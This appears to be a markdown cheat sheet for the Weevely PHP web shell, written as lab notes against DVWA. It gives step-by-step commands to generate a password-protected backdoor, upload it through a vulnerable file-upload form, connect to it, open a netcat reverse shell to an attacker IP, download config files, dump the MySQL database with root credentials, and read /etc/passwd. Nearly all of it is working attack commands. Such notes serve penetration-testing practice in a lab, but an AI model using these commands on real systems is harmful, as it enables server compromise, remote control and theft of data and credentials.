 # Weevely

## Usage
1. Genrate backdoor in Kali
   - ```weevely generate [password] [file name]```
   -  ```weevely generate 123456 /root/shell.php```
2. Upload 
   - we have an input field
     -  Upload *"shell.php"* in vulnerable app (DVWA-Low)
   - we access to system shell
     - ```wget http://10.20.14.213/shell.txt``` 
     - ```mv shell.txt shell.php```
3. Run
   - Send a request to uploaded php file *"http://192.168.152.132/dvwa/hackable/uploads/shell.php"*
4. Connect to shell from Kali
   - ```weevely [url o file] [password]```
   -  ```weevely http://192.168.152.132/dvwa/hackable/uploads/shell.php```

## Weevely commands
- List weevely functions
  - ```help```
- Help of a specific function 
  - ```[function name] -h```   
- Run weevely functions
  - ```[function name]```
- Download
  - ```file_download -vector [VECTOR] [FileName] -host [HOST] [location to store file]```
  - ```file_download -vector file config.inc.php /root/config-downloaded.txt```
  - different vector should be checked, until one of them works
- Upload
  - ```file_upload -vector [VECTOR] [location on local machine] [location to store file]```
  - ```file_upload /root/test.txt ./test-shell-uploaded.txt```
- Reverse shell
  - ```backdoor_reversetcp -vector [VECTOR] [Your IP] [PORT]```
  - ```backdoor_reversetcp -vector netcat 10.20.14.213 8080```
- Access database
  - ```sql_console```
  - ```sql_dump -vector [VECTOR] -host [HOST] -lpath [location to store data] [DB Name] [username] [password]```
  - ```sql_dump -vector mysqldump_sh -host localhost -lpath /root/dvwa-data.txt dvwa root```
- Other functions
  - ```whoami``` 
  - ```shell_sh [command]```
  - ```shell_sh -v [vector] [command]```
  - ```system_info```
  - ```audit_etcpasswd -vector posix_getpwuid```
